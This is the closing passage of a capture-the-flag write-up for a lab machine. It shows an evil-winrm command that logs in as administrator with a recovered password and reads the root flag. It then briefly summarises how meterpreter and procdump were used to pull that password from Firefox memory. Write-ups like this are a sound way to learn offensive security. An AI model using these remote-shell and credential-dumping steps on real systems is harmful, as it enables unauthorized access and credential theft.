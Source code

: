     :::text
    evil-winrm  -i 10.10.10.149 -u administrator -p '4dD!5}x/re8]FBuZ'

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
    50dfa<redacted>

# Wrapping up

In this machine we used evil-rm in to order to exploit the port 5985 as
I work on this machine after the forest one this was not something new (maybe
this article will be publish before the forest's one as I wait for the machine
to retire). We use a simple meterpreter and proc dump to found the password
stored in the Firefox memory.

I was a bit disappointed that there was no real exploitation of the CISCO router.
I was hoping for some pivoting from the first VM to another one use the router
or something similar.

